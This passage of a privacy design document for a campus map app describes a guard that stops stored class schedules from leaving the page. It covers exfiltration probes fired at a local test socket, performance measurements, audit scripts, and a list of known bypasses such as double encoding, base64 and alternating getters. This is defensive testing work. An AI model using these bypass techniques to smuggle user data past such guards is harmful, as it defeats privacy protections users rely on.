| `postMessage({nothing:'to see here', n:42})` | **crossed** | `blocked +0` |

Socket total with the guard armed: **0 bytes**, including the two percent-encoded
probes. Socket total with it disarmed for one probe: the canary, in full.

### Two holes this round found in its own probes, not in a critic's

Both were mine, both are fixed, and both are the same family as the one the
critic found — content the guard could have read if it had looked at it in the
right form.

- **Percent-encoded content in a URL.** `fetch('/collect?t=' +
  encodeURIComponent(title))` sailed past an armed guard, because
  `Zygomorphic%20Percussion%20Seminar` does not contain `zygomorphic percussion
  seminar`. So did a form POST, since `bodyToText()` renders `URLSearchParams`
  with `toString()`, which percent-encodes. `scanTextForSchedule()` now retries
  the decoded form — gated on the string actually containing a `%` or a `+`, so
  every tile URL this app fetches (`data/tiles/roads.pmtiles`) skips it for free.
- **`MessagePort` and `BroadcastChannel` were never inspected at all.** A port
  transferred into a worker carries structured clones without ever touching
  `Worker.prototype.postMessage`. That would have been the round-7 finding.
  Measured cost of closing it: exactly zero — a cold load makes **0** calls to
  either.

### Delete still turns it all off, including the new state

Round 6 gave the watchlist a second representation — the byte patterns — and if
Delete reset one and not the other, the guard would either keep refusing after
the schedule was gone or quietly stop. Neither is visible from reading
`scheduleClear()`, so the same binary probe was fired at three moments:

| moment | the ArrayBuffer probe | `watched` |
|---|---|---|
| before anything is saved | **crossed** | 0 |
| with a schedule stored | **refused** | 8 |
| after a real click on the real `#wf-priv-del` | **crossed again** | 0 |

`store.has()` false, zero `austin3d.schedule.*` keys, and a genuinely fresh
document (a new page, not a reload of the one that did the seeding) reports the
same.

### Round 5's table, re-run on round 6's code

Nothing regressed:

| | armed |
|---|---|
| `fetch` with a `Blob` body | refused, socket silent |
| `XMLHttpRequest.send(Blob)` | refused, socket silent |
| `navigator.sendBeacon(url, Blob)` | refused, socket silent |
| `fetch` with a `ReadableStream` body | refused, socket silent |
| `Worker.postMessage({b: Blob})` | refused |
| a plain bodyless `GET` | **untouched** |

---

## 7. The eleven unroutable codes — and the correction, now with the real source

**Round 3 of this doc got SSW wrong in the worst available way: a confident
reason with a citation to a file that did not exist.** It said SSW was
demolished in September 2024 and sourced that to `docs/schedule-gaps.md`, which
at the time was on no branch and in no commit.

**That file exists now, and it is worth being precise about what changed.** It
was written by a recon pass whose work the workflow never told itself to commit;
it was rescued onto `main` on 2026-08-24 (`ed74cc3`, *"Rescue two recon docs the
workflow never told itself to commit"*). So round 3 cited a real document it had
no way to see — which is not better than inventing one. A citation you cannot
open is a citation you must not make.

**Read now, it does say SSW was demolished** — §2, sourced to Daily Texan and
KVUE reporting on a September 2024 demolition, the school's move to Walter Webb
Hall, and UT's Main Campus building directory returning no SSW entry. **And a
sibling lane checked that conclusion and found it wrong.**
`docs/si-gaps.md` (on `origin/acer/si-gaps`), §1 "Claim 2":

- our `data/ut_buildings.json` is a **198-code snapshot retrieved 2026-08-05**,
  incomplete rather than authoritative-by-omission;
- `docs/import-bar-ut.md` found UT filing SSW under its own `UTM` main-campus
  path as *school of social work building (ssw – 0625)*;
- **the geometry settles it without reference to any register**: UT's two
  published SSW doors land **0.37 m and 2.45 m** from the edge of a footprint
  this app already draws, 37.4 m and 50.9 m from mapped pavement.

`docs/schedule-gaps.md` itself records the fact that undoes its own conclusion:
UT's `Celebrated_Entrances_view` layer, queried live on 2026-08-24, **still
returns two "Active" rows** for SSW's doors. It read that as UT's data being
stale. The sibling lane read it as SSW being a current building our register
copy is a row short of — and fixed it with one `CAMPUS_EXTRA` row, taking the
count from **11 to 10**, with a before/after search screenshot to prove it.

**So: SSW is a real, current, main-campus building UT surveys doors for, and the
only thing missing was a row in our own register.** Not demolished. This lane
stores whatever `unroutableWhy` string it is handed and does not own that table,
so nothing here changes but the sentence.

`walkmeter.mjs` on this branch, for the record: `UT buildings this build cannot
route to at all (11): BE1 BEG EME FS1 FSL MER PX3 ROC SSW SV1 TCB` — eleven
before the sibling lane's fix, ten after it, and the other ten are 9.6–10.6 km
away at the Pickle Research Campus, genuinely off this map.

---

## 8. What the guard costs, and the four measurements that were wrong first

The guard sits on `Worker.prototype.postMessage`, which is MapLibre's per-tile
path. "It's bounded" is a claim about code, so it was measured — and four
attempts were bad instruments or bad theories, which is the part worth keeping.

**Wrong measurement #1 (round 4): whole-map load time with and without a stored
schedule.** After the first rep every tile was in the HTTP cache, so the later
reps did *zero* guard checks and the guarded condition came out **27% faster**.
That is not a result; it is a cache mistaken for one.

**Wrong measurement #2 (round 4): absolute microseconds across runs.** The
unguarded baseline for the identical benchmark moved from 7.4 µs to 68 µs
depending on what the other lanes were doing. Only conditions interleaved inside
a single run are comparable.

**Wrong theory #3 (round 6): "widening the prefilter will pay for itself."** The
byte scanner's first version keyed a 256-entry table on the first byte of each
pattern, which with a real watchlist lights up ~10% of byte values. Widening it
to 65,536 entries keyed on the first *two* bytes should have cut the
false-positive rate by two orders of magnitude. Measured, cold-load minimum of
three interleaved reps: **925 ms → 866 ms.** A 6% win, not the 10× the reasoning
promised, because 64 KB does not fit in L1. Packing the same table into 8 KB of
bits to fit L1 made it **worse than both** — the shift-and-mask per byte costs
more than the cache miss it avoids. The 64 KB byte table stayed because it won,
narrowly, on the numbers.

**Wrong theory #4 (round 6): "the per-message cost is closure allocation."** The
walk was a closure created fresh inside `scanStructured()` on every message, and
the guard was costing ~30 µs per message on top of the byte scan. Hoisting it to
module level with its state beside it should have let V8 keep it hot. Measured
before and after on the same 5,000-message benchmark: **215 ms → 216 ms.** No
difference at all. It stayed hoisted because it is the better shape to read, not
because it was faster. The per-message cost is the walk and the scan doing real
work.

### The number

Cold load, time inside `Worker.prototype.postMessage`, **minimum of three
interleaved reps** of each condition, ~2,500 messages and ~20 MB of binary per
run:

| | minimum |
|---|---|
| schedule stored — full walk plus byte scan | **827 ms** |
| nothing stored — the guard is one `if` | **261 ms** |
| **the guard's own share** | **≈ 570 ms across a whole cold load** |

That is about **0.22 ms per worker message**, and it is a real number, not
"nothing". Round 5 could say "nothing" because round 5 skipped the bytes; this
round reads 20 MB of them and 1.3 million extra payload nodes the old 4,000-node
cap used to bail out of. Two things bound it: it only happens on a device that
has a schedule stored, and it is spread across a load that already takes tens of
seconds. Driven hard — five pan-and-zoom steps at zoom 11 to 19 — the same run
scanned **141 MB** across 19,165 buffers and refused none of it.

**What did not change:** with nothing stored, `schedRe` is `null` and the
wrapper returns before doing anything. A student who has never imported a
schedule pays for one `if` per worker message, exactly as before.

Earlier round-5 improvements still stand and are why the non-binary part is as
cheap as it is. Worker messages are **counted, not logged** unless they match —
a `performance.now()`, an object and a ring-buffer `shift()` per tile — and each
string leaf is tested with `indexOf` rather than a compiled alternation retried
at every start position. Together those took the per-message cost from
**42.6 µs to 3.8 µs** on a 4,000-message benchmark, minimum of 8 interleaved
reps.

### Round 7: what the array fix costs, and the optimisation that was unsound

Walking an array by own enumerable property instead of by index is more work.
Two measurements, and they disagree in a way worth understanding rather than
picking the flattering one from.

**On the real city, there is no result.** Guard time across an identical six-leg
pan-and-zoom drive, three interleaved reps each way, normalised per message
because tile traffic itself varied 5,949–6,803 messages and 116–127 MB between
reps:

| | reps | per message |
|---|---|---|
| round 7, own-enumerable walk | 3 | **0.250 / 0.257 / 0.271 ms** |
| round 6, index loop | 3 | **0.273 / 0.268 / 0.213 ms** |

The spreads overlap, and `scripts/verify/README.md` is explicit that overlapping
spreads mean there is no result. Reporting "round 7 is *faster*" off the first
pair would have been the single-sample mistake that cost this repo four retracted
claims on 2026-08-01.

**Isolated on a fixed payload it is real, and it is not small.** Same page, same
worker, guard-on minus guard-off, minimum of three reps:

| payload | round 6 index loop | round 7 own-enumerable | ratio |
|---|---|---|---|
| a 600,000-element flat numeric array | **13.6 ms/message** | **103.4 ms/message** | 7.6× |
| a 400-layer style tree of small arrays | 0.41 ms/message | 1.54 ms/message | 3.8× |
| a tile-shaped message, 4 KB binary + 300 features | 0.122 ms/message | 0.291 ms/message | 2.4× |

Both are true at once, and the reason is the honest part: **MapLibre's real
payloads are binary, not giant JS arrays.** The byte scan of ~120 MB dwarfs the
walk, so 7.6× on a shape this app never sends disappears into a drive that scans
15,351 buffers. The synthetic number is kept anyway, because the next lane may
send a shape this app does not.

**The optimisation that was rejected — for being wrong, not for being slow.**
The obvious way to keep the fast index loop is to run it and then ask whether the
array has anything else on it:

```js
if (Object.keys(x).length !== x.length) { /* ...walk the extras... */ }
```

It is unsound. An array with **both a hole and an extra property** has the two
cancel out: `a = new Array(3); a[0] = 1; a[1] = 2; a.note = title` has `length` 3
and keys `['0','1','note']`, so the count test says "no extras" and the title
rides through — and `structuredClone` carries it, measured. `arrayHoleAndExtra`
is a probe shape for exactly this: it leaks with the guard disarmed and is
refused with it armed, so a future speed-up cannot quietly reintroduce the test.

**Round 7's new doors cost nothing, and that is measured rather than asserted.**
A full drive of the real city reports `frameChecked: 0`, `swChecked: 0`,
`rtcChecked: 0`, `portChecked: 0`, `bodyBytesScanned: 0` — this app makes no
`window.postMessage` call, creates no iframe, registers no service worker, opens
no data channel, and sends no request with a body at all. All five counters are
published through `guard.state()`, so the next person re-checks this paragraph in
one line instead of trusting it.

### Round 8: a null result on the city, a real one on strings, and a prediction that was wrong

**The A/B is a true one this round.** `r8-map-cost.mjs --baseline <file>` serves
the round-7 `js/wayfind.js` to the page and changes nothing on disk, so the only
difference between the two conditions is the round-8 diff. The easy version —
flipping the new taste flags off — would have been a worse instrument, because
the merged string scanner has no flag and is the change most likely to cost
something; a flag A/B would have silently excluded it. The R7 rows are also
self-checking: they carry no `headersScanned` field at all, which is the proof
that `--baseline` really served the other file.

**On the real city, there is no result.** Guard time across an identical six-leg
drive, three interleaved and counterbalanced reps each way, normalised per
message because tile traffic itself varied 5,756–8,536 messages between reps:

| | reps | per message |
|---|---|---|
| round 8 | 3 | **0.261 / 0.269 / 0.332 ms** |
| round 7 | 3 | **0.244 / 0.254 / 0.298 ms** |

The spreads overlap, so per `scripts/verify/README.md` there is no result. The
`fetch` timer says the same thing with the signs crossed — 0.609–0.740 ms/call
against 0.565–0.712 — so the header read does not show above the noise of a
`fetch` call itself.

**Isolated on fixed payloads it is real, and one of the three is not small.**
Guard-on minus guard-off on the same payload in the same page, minimum of three
reps (`r8-micro.mjs`):

| payload | round 7 | round 8 | ratio |
|---|---|---|---|
| 20,000 short strings, **no `%` or `+`** | 19.72 ms | **25.67 ms** | 1.30× |
| the same 20,000, every one percent-encoded | 27.08 ms | **71.18 ms** | 2.63× |
| one 256 KB binary buffer | 2.85 ms | **3.04 ms** | 1.07× |
| a `fetch` with eight headers | 0.018 ms | −0.012 ms | no result |

Read the first row rather than the second: **1.30× is what the gate costs when
it never fires**, two `indexOf` calls per string leaf, and that is the row this
app actually pays. 2.63× is the worst honest case — every leaf encoded — and
nothing in this app produces it. 1.07× on binary is the bigger pattern table
(the encoded needles) and is close enough to the noise floor to be worth
distrusting on a single shape.

Both facts are true at once for the same reason they were in round 7:
**MapLibre's real payloads are binary, not strings.** A drive that byte-scans
120 MB across 15,000 buffers does not notice 0.3 µs more per string leaf.

**And a prediction in this document was wrong, so here is the census that
corrects it.** The header change was written up as costing nil because "this app
sets one header on one request in its whole codebase" — true of the source, and
not true of the traffic. Measured, the guard reads headers on **248–411 requests
per drive**, because MapLibre passes a headers object on essentially every tile
fetch. `unreadableHeaders` is 0 every time and no real request was ever refused,
so nothing is broken by it; the number is here because the claim was made from
reading the code instead of from running it, which is the mistake this section
is a list of.

---

## 9. The guard, and exactly what it is not

`installEgressGuard()` wraps the ways bytes leave a page, and the ways bytes
reach a worker, and refuses any that carries a watched string:

**Network:** `fetch`, `XMLHttpRequest`, `navigator.sendBeacon`, `WebSocket`
(open, **subprotocols** and send), `EventSource`, `HTMLFormElement.submit` plus
a capture-phase `submit` listener.
**Request headers (round 8):** every `fetch` — both `init.headers` and a
`Request`'s own, because the wire gets the union — and every
`XMLHttpRequest.setRequestHeader`, replayed at `send`. Nothing had ever looked
at a header before this round; all three shapes reached a raw socket with the
guard armed.
**Into a worker:** `Worker.prototype.postMessage`, `MessagePort.prototype.postMessage`,
`BroadcastChannel.prototype.postMessage`, `ServiceWorker.prototype.postMessage`,
and the `Worker` / `SharedWorker` constructors' script URLs plus
`navigator.serviceWorker.register`.
**Into another realm or peer (round 7):** `window.postMessage`,
`Window.prototype.postMessage`, `window.open`, `RTCDataChannel.send` and
(round 8) `RTCPeerConnection.createDataChannel`'s label, which rides in the SDP
and is therefore a leak that never calls `send`. Every
one of these returned `checked: 0` when fired at an armed round-6 guard — never
inspected, not merely allowed.
**Into a child realm (round 7):** reading an `<iframe>`'s `contentWindow`, or
taking the Window back from `window.open`, wraps that realm's own `postMessage`
and `fetch` before the caller can use them. See the limit below.

It is a **seatbelt, not the safety case.** The safety case is that no code here
sends anything. The guard exists so that if a later lane wires an analytics call
into this file, the call fails loudly instead of quietly working.

### The door argument, stated with its preconditions

The guard is main-thread. It cannot reach inside MapLibre's four workers, and
this file creates none of its own, so nothing can wrap a worker's `fetch`. The
whole safety argument is therefore *schedule bytes never get in*, and that is
only worth as much as the list of doors above. Two things make it stronger than
it sounds, and both are worth stating because they are load-bearing:

- **A worker cannot read `localStorage` at all.** It is not exposed in a worker
  scope. So a worker cannot obtain the schedule by going and getting it; it can
  only be handed it.
- **The reserved IndexedDB database (`austin3d-schedule`) IS worker-visible.**
  Nothing writes it today — it exists so the delete sweep already covers the
  image-OCR pass on the day that pass starts existing. When something does write
  it, this bullet stops being reassuring and the door list above stops being
  complete. That is a note for whoever builds OCR, written here rather than
  discovered later.

### What it does **not** cover, said plainly

- **The worker's SCRIPT, when it comes from a `blob:` URL.** MapLibre mints one
  object URL and spawns four workers from it — measured on a real load. A `Blob`
  cannot be read synchronously, and refusing blob-sourced workers would break
  the map on contact, so schedule text baked into a worker's *source* is not
  visible to this guard. The constructor wrapper scans the URL and nothing more.
- **Content re-encoded past recognition.** The byte scanner reads UTF-8 and
  UTF-16LE because those are what an honest bug produces. Base64, gzip, XOR and
  chunking a token across two buffers are not covered, and a content scanner
  running inside the page it is guarding cannot win that argument. This stops a
  later lane's mistake; it is not a sandbox and must not be sold as one.
- **A SECOND level of percent-encoding.** Round 8 made the one string scanner
  retry `decodeURIComponent`, and it retries once. `encodeURIComponent(
  encodeURIComponent(title))` — `%2520` — is not caught on the string path. On
  the BINARY path the encoded forms are registered as needles rather than
  decoded, and only the single-encoded form is registered, so the same limit
  applies there. One level is what an honest bug produces, because one level is
  what `encodeURIComponent` does; two levels is deliberate, and deliberate is
  the argument this guard has already said it cannot win. Named here on the
  round the single level was added, per the rule at the bottom of this list.
- **Non-ASCII case variants in binary.** Byte-level case folding is ASCII-only.
  A title stored as `Señor` and sent as `SEÑOR` inside a buffer would not match,
  though the string path handles it correctly via `toLowerCase()`.
- **`` and plain link navigation.** Covered by the browser-level
  capture in §5.C, which sees every request regardless of who made it — but not
  by the runtime guard.
- **A fragment of a field.** Whole field values are the tokens. A leak of
  `"Data"` out of `"Data Structures"` would not match. Whole values are what a
  serialiser emits; word fragments are what tile URLs are full of, and watching
  those would block the map.
- **A throw inside the inspector fails OPEN on the network paths** — the request
  proceeds — and is counted, because a bug in this file must not stop a tile
  downloading. **On the worker path it now fails CLOSED**
  (`SCHEDULE_STORE.failClosedOnScanError`): a payload that makes the walk throw
  is indistinguishable from one built to make it throw, and refusing a worker
  message cannot break tile loading the way a broken `fetch` wrapper could.
  2,545 real messages a load produce zero throws; the audit asserts
  `inspectFailures === 0` and `scanThrows === 0`.
- **A child realm's own children.** Round 7 wraps a same-origin iframe's
  `postMessage` and `fetch` when this page reads its `contentWindow`, because a
  same-origin child iframe is a **separate JavaScript realm with its own
  intrinsics** and every wrapper in this file is invisible inside it. That
  follows references passing through *this* page and no further: a child realm
  can mint its own child, and a cross-origin frame cannot be patched at all
  (the assignment throws `SecurityError`, which is also the browser saying our
  objects cannot reach it). Same seatbelt, same limit.
- **A getter that answers differently the second time.** The walk reads a
  property, then `postMessage`'s serialiser reads it again; a getter returning
  `'safe'` then the class title defeats the scan by construction. Closing it
  would mean serialising every payload twice on the tile path. It is not an
  honest-bug shape — a mistake does not alternate — and this is a seatbelt, not
  a sandbox. Named rather than left to be discovered.
- **An unreadable body no longer fails open** (round 4's finding, §6), and
  **an unreadable payload node no longer passes silently** (rounds 5 and 6).
  Both of these bullets used to say the opposite, and both were wrong.
- **An array is no longer read by index** (round 7). That bullet is not in this
  list any more because it moved from "not covered" to "covered" — but it was
  never in this list when it was true, which is the failure mode this section
  exists to prevent. If a shape is not covered it belongs here, named, on the
  round it is found.
- **An encoded string on the worker path, and a request header anywhere**, are
  likewise no longer in this list, because round 8 covered them. Same note, and
  it has now been earned twice: neither was ever in this list while it was true.
  The pattern across rounds 4–8 is not five different oversights, it is one — a
  capability wired to one of two doors — so the question to ask of any new check
  is not "is it right" but "what is the complete set of callers, and is every
  one of them on the strong version".

---

## 10. The seam for the sibling lanes, and the patches this lane could not make

Nothing above needs an import bar. When one exists:

```js
WAYFIND.store.mount(el)            // put the sentence + Delete inside the bar
WAYFIND.store.save(parsedDoc)      // the only writer; normalises + stores
WAYFIND.store.load()               // null, the doc, or {tooNew:true}
WAYFIND.store.has() / .clear() / .clearAsync() / .inventory()
WAYFIND.store.onChange(fn)         // returns an unsubscribe
WAYFIND.store.guard.state() / .log()
```

`save()` runs everything through `normaliseSchedule()`, so a photo and an `.ics`
cannot drift into two shapes. Until a bar exists, the panel mounts itself into
`#wf-sheet .wf-foot`.

**A lane's own audit passing is not evidence that the lane did not break
somebody else** — in the previous round of this project one lane's own critic
returned a clean verdict on a commit that had silently broken another lane's
stairs fix. So `walkmeter.mjs` was run on this branch after the round-5 change,
and it is the other lanes' scoreboard, not this one's:

```
9/9 clean; 9 of them would have offered a stepped door with the toggle off
reachable step-free from a hub   56/56   56/56   (utVirtualStepFree off -> on)
stranded before: none   after: none
buildings still outside 15 m: none
LIVE UI GATE — a real mouse click on the "Avoid stairs" checkbox
  before  "2-4 min walk · 240 m · Stairs: 1 set"
  after   "Under 1 min walk · 46 m · No stairs on this route"
PASS  self-check drift 0 over limit, 0 route error(s), UI gate pass
```

The door lane's nine doors and the stairs lane's toggle are untouched — which is
what you would expect from a change confined to §12, but expecting is not
checking. The same run is where §7's list of eleven comes from, live on this
branch rather than quoted from a previous round.

**Merged with the siblings and re-run there.** Merged with `acer/si-gaps`,
`acer/si-ui` and `acer/si-parser`: `js/wayfind.js` auto-merges against
`si-gaps`; against `si-ui` and `si-parser` it conflicts only at the append point
and both blocks are kept whole; `node --check` passes; `harness-drift.mjs`
passes; the full audit passes; `walkmeter.mjs` passes with the stairs UI gate
still green and the unroutable count 11 → 10.


**Two things the integrator should know**, neither of them a defect in any one
lane:

1. **All four lanes append a new top-level section at the same seam**, just above
   `function boot()`, so an N-way integration hits one conflict at one point. The
   resolution is concatenation, and there is a trap in it: git aligns
   coincidentally identical trailing lines (`return null;`, `}`, `};`) across two
   unrelated bodies, so a naive "keep both sides" **silently drops a function's
   closing brace** and leaves a file that still reads plausibly. It happened here
   twice. `node --check js/wayfind.js` catches it in a second; reading the diff
   does not.
2. **`acer/si-dayview` collides the same way and was left unresolved here.**
   Picking the right resolution belongs to whoever owns the integration, not to
   this lane guessing. Flagged, not fudged.

**Patches this lane could not make** (it owns storage functions only):

- **`style.css`** — the panel's rules are injected from JS as `#wf-priv-css`.
  They are one array of strings, `SCHEDULE_PRIVACY_CSS`, ready to lift into the
  stylesheet's `#wf-root` block verbatim. Nothing else has to change.
- **`scripts/verify/`** — `scripts/verify/r5-blob.mjs` (proposed) and
  `scripts/verify/si-privacy-claims.mjs` (proposed) are in §11 verbatim. Each
  exits 0/1 on its assertions, so either can go straight into a suite.
- **`scripts/verify/walkmeter.mjs`** — it prints, under its own list, *"SSW is
  not in UT's own register"*. That parenthetical carries round 3's wrong
  implication; the accurate wording is *"SSW is on main campus and is missing
  from our register snapshot"*, and `si-gaps` removing SSW from the list makes
  the clause moot anyway.
- **One copy overlap, and it is Simeon's call, not this lane's.** In the frame
  above the promise is made **twice**: `si-ui`'s row says *"Google, Apple or UT —
  read on this phone, never uploaded"* and the sentence below says *"never
  uploaded anywhere"*. Both true, neither wrong, but stacked they read like a
  page protesting. The cheap fix is for the import row's subtitle to drop its
  privacy clause and let the one sentence carry the promise once — which is the
  whole argument of §1. That subtitle is `si-ui`'s copy.

---

## 11. The audit scripts, verbatim

This lane may not write `scripts/verify/`. Both scripts are below in full; each
exits 0 on all-pass and 1 otherwise. The nine-door negative control from round 4
is unchanged and recoverable from `git show 83382d4:docs/si-privacy.md` rather
than carried here twice.

### 11a. `si-privacy-claims.mjs` — the gate on this document

```js
/**
 * claims-check.mjs — does docs/si-privacy.md cite anything that does not exist,
 * and does the promise it quotes still match the promise the app makes?
 *
 * WHY THIS EXISTS. Round 3's critic found this doc backing its central factual
 * claim with four citations to `docs/schedule-gaps.md` — a file that has never
 * existed on any branch. Nothing caught it because nothing was looking. A
 * fabricated citation is not a typo; it is a claim with no source presented as
 * a claim with one, and the only durable fix is a gate rather than a promise to
 * be more careful.
 *
 * Two checks, both cheap:
 *   1. EVERY relative path this doc cites resolves — either in this worktree,
 *      or, if the doc marks it `(on BRANCH)`, in that branch's tree. A citation
 *      that names its branch is honest; one that does not and does not exist is
 *      the defect.
 *   2. The privacy sentence the doc QUOTES is byte-identical to the one
 *      index.html serves and the one js/wayfind.js falls back to. A doc that
 *      quotes a promise the app no longer makes is the same defect wearing
 *      different clothes.
 *
 * Usage:  node claims-check.mjs <repo-root>
 * Exit 0 all checks passed, 1 a check failed.
 */
import fs from 'node:fs';
import path from 'node:path';
import { execFileSync } from 'node:child_process';

const ROOT = process.argv[2] || process.cwd();
const DOC = path.join(ROOT, 'docs', 'si-privacy.md');
const text = fs.readFileSync(DOC, 'utf8');

const fails = [];
const ok = (cond, label, extra) => {
  console.log((cond ? '  PASS  ' : '  *FAIL ') + label + (extra ? '   ' + extra : ''));
  if (!cond) fails.push(label);
  return cond;
};

console.log('\n── 1. every path this doc cites resolves ──');

// A CITATION IS PROSE, NOT CODE. Fenced blocks hold the audit scripts verbatim
// and their console output, and both are full of paths that are examples,
// placeholders or runtime strings — not this document citing a source. Strip
// them first, or the gate reports the sample paths in its own listing.
const prose = text.replace(/```[\s\S]*?\n```/g, '');

// Citations look like `docs/foo.md`, ../shots/si/privacy/x.png, js/wayfind.js,
// data/ut_buildings.json. Pull them out of backticks AND out of image links.
const cited = new Set();
for (const m of prose.matchAll(/`([^`\n]+)`/g)) {
  const s = m[1].trim();
  if (/^(docs|js|data|scripts|shots)\/[\w./-]+$/.test(s)) cited.add(s);
}
for (const m of prose.matchAll(/!\[[^\]]*\]\(([^)]+)\)/g)) {
  cited.add(m[1].trim().replace(/^\.\.\//, ''));
}

// A citation may legitimately point at something that is not in THIS tree, but
// the doc has to SAY which, right next to the citation:
//   `docs/x.md` (on origin/acer/y)   — a sibling lane's file, checked in that tree
//   `scripts/verify/x.mjs` (proposed) — a file this lane may not write, not yet real
//   `docs/x.md` (does not exist)      — named because the doc is DISCUSSING a
//                                       phantom citation, not making one
// Anything else that does not resolve is the round-3 defect: a claim wearing a
// citation's clothes. The declaration has to sit next to the FIRST mention, so
// a later bare repeat inside the same discussion is fine but a bare citation
// somewhere else in the file is not.
// The window spans newlines because markdown wraps, and backticks around the
// branch name are optional — a rule nobody can satisfy is a rule that gets
// switched off.
const declOf = (p) => {
  const esc = p.replace(/[.*+?^${}()|[\]\\]/g, '\\$&');
  const near = (tail) => new RegExp('`' + esc + '`[\\s\\S]{0,120}?' + tail);
  const br = text.match(near('\\(on `?(origin/[\\w./-]+)`?\\)'));
  if (br) return { kind: 'branch', branch: br[1] };
  if (near('\\(proposed\\)').test(text)) return { kind: 'proposed' };
  if (near('\\(does not\\s+exist\\)').test(text)) return { kind: 'phantom' };
  return null;
};

const inTree = (branch, p) => {
  try {
    const out = execFileSync('git', ['-C', ROOT, 'ls-tree', '--name-only', branch, p], { encoding: 'utf8' });
    return out.trim().length > 0;
  } catch (e) { return false; }
};

const missing = [];
for (const p of Array.from(cited).sort()) {
  const here = fs.existsSync(path.join(ROOT, p));
  const d = declOf(p);
  if (here) { console.log('    ok   ' + p); continue; }
  if (d && d.kind === 'branch') {
    if (inTree(d.branch, p)) console.log('    ok   ' + p + '   (declared on ' + d.branch + ', and really there)');
    else missing.push(p + '  — declared on ' + d.branch + ' but NOT in that tree');
    continue;
  }
  if (d && d.kind === 'proposed') { console.log('    ok   ' + p + '   (declared proposed, not yet written)'); continue; }
  if (d && d.kind === 'phantom') { console.log('    ok   ' + p + '   (named as a phantom the doc is correcting)'); continue; }
  missing.push(p + '  — does not exist here, and the doc declares no branch and does not call it proposed');
}
ok(missing.length === 0, 'no citation points at a file that does not exist',
  missing.length ? '\n         ' + missing.join('\n         ') : cited.size + ' paths checked');

console.log('\n── 2. the sentence the doc quotes is the sentence the app makes ──');

const html = fs.readFileSync(path.join(ROOT, 'index.html'), 'utf8');
const js = fs.readFileSync(path.join(ROOT, 'js', 'wayfind.js'), 'utf8');

const htmlLine = (html.match(/<span data-k="line">([^<]+)<\/span>/) || [])[1];
// SCHEDULE_PRIVACY_COPY.line is written as two concatenated string literals, so
// take everything between `line:` and the next key and glue the literals back.
const jsLine = (() => {
  const at = js.indexOf('const SCHEDULE_PRIVACY_COPY');
  if (at < 0) return null;
  const m = js.slice(at).match(/line:\s*([\s\S]*?),\s*\n\s*deleteBtn:/);
  if (!m) return null;
  return (m[1].match(/'([^']*)'/g) || []).map(s => s.slice(1, -1)).join('');
})();
// The doc quotes it as a blockquote in §1, wrapped across lines.
const quoted = (() => {
  const m = text.match(/>\s\*\*(Your schedule stays[\s\S]*?)\*\*/);
  return m ? m[1].replace(/\n>\s*/g, ' ').replace(/\s+/g, ' ').trim() : null;
})();

console.log('    index.html   : ' + JSON.stringify(htmlLine));
console.log('    wayfind.js   : ' + JSON.stringify(jsLine));
console.log('    si-privacy.md: ' + JSON.stringify(quoted));
ok(!!htmlLine && !!jsLine && htmlLine === jsLine, 'index.html and js/wayfind.js say the same sentence');
ok(!!quoted && quoted === htmlLine, 'the doc quotes that sentence exactly, not a paraphrase of it');

console.log('\n' + (fails.length === 0 ? '  ALL PASS' : '  ' + fails.length + ' FAILED:\n   - ' + fails.join('\n   - ')) + '\n');
process.exit(fails.length === 0 ? 0 : 1);
```

### 11b. `r5-blob.mjs` — the browser audit and the socket sink

```js
/**
 * r5-blob.mjs — round 5. The one thing round 4's critic proved was broken.
 *
 * Round 4 fired nine channels with STRING bodies and the guard closed all nine.
 * Then the critic did the thing nobody had done and fired a `Blob`, and the
 * canary landed on a raw socket verbatim while the guard's `blocked` counter
 * stayed at zero. `bodyToText()` returns `undefined` for a Blob, and
 * `undefined` was being treated as "nothing to see".
 *
 * It also found the audit's own instrument had the SAME blind spot:
 * Playwright's `request.postData()` returns null for a Blob body, so the round-4
 * script would have reported a clean "zero requests carried schedule content"
 * while the schedule was going out of the machine.
 *
 * So this script does not trust the browser automation to tell it what left.
 * It stands up a BARE TCP LISTENER and reads the literal bytes that arrive.
 * A socket cannot have a blind spot about its own input.
 *
 * Three things get proven, in this order:
 *   1. THE INSTRUMENT IS HONEST NOW. With the guard disarmed, a Blob probe
 *      reaches the socket, `postData()` is shown to MISS it (the round-4 bug,
 *      reproduced), and `postDataBuffer()` is shown to CATCH it.
 *   2. THE HOLE IS CLOSED. With the guard armed, every Blob probe is refused
 *      and the socket receives nothing.
 *   3. THE FIX COST NOTHING. A schedule is seeded BEFORE the app boots, so the
 *      guard is armed with a watchlist for the whole cold map load, and the
 *      count of opaque worker payloads is measured rather than assumed.
 *
 * Usage:
 *   python scripts/serve.py 8915
 *   cd scripts/verify && VERIFY_URL=http://127.0.0.1:8915 node r5-blob.mjs
 */
import net from 'node:net';
import fs from 'node:fs';
import path from 'node:path';
import { chromium } from 'playwright-core';

const BASE = process.env.VERIFY_URL || 'http://127.0.0.1:8915';
const CHROME = process.env.CHROME_PATH || 'C:/Program Files/Google/Chrome/Application/chrome.exe';
const SINK_PORT = Number(process.env.SINK_PORT || 8916);
const SHOTS = process.env.R5_SHOTS || '.';

const fails = [];
const ok = (cond, label, extra) => {
  console.log('  ' + (cond ? 'PASS' : 'FAIL') + '  ' + label + (extra ? '   ' + extra : ''));
  if (!cond) fails.push(label);
};

// ── the canary ───────────────────────────────────────────────────────────────
// Deliberately not borrowed from any other script in this lane: if one of these
// strings shows up on the socket it came from THIS run's stored schedule and
// nowhere else.
const CANARY_TITLE = 'Ferroelectric Hysteresis Seminar';
const CANARY_PROF = 'Okonkwo-Halvorsen';
const CANARY_ROOM = 'MAI 220';
const SCHEDULE = {
  v: 1,
  term: 'Fall 2026',
  tz: 'America/Chicago',
  sources: [{ id: 'google-ics', label: 'a Google Calendar export' }],
  classes: [
    { code: 'MAI', room: '220', title: CANARY_TITLE, instructor: CANARY_PROF,
      days: ['TU', 'TH'], start: '14:00', end: '15:30', src: 'google-ics' },
    { code: 'GDC', room: '2.216', title: 'Cryptographic Protocol Design', instructor: CANARY_PROF,
      days: ['MO', 'WE'], start: '09:00', end: '10:00', src: 'google-ics' },
  ],
};
// What must never appear on a socket. Whole field values, matching the guard's
// own >= 4 character rule.
const CANARIES = [CANARY_TITLE, CANARY_PROF, CANARY_ROOM, 'Cryptographic Protocol Design'];

// ── the bare TCP listener: ground truth about what actually left ─────────────
// Not an HTTP server from `http`, because a framework can normalise, buffer or
// drop a body and I would never know. This reads the socket.
const sinkBytes = [];
const sink = net.createServer((sock) => {
  let buf = Buffer.alloc(0);
  sock.on('data', (d) => {
    buf = Buffer.concat([buf, d]);
    sinkBytes.push({ at: Date.now(), text: buf.toString('utf8') });
  });
  sock.on('error', () => {});
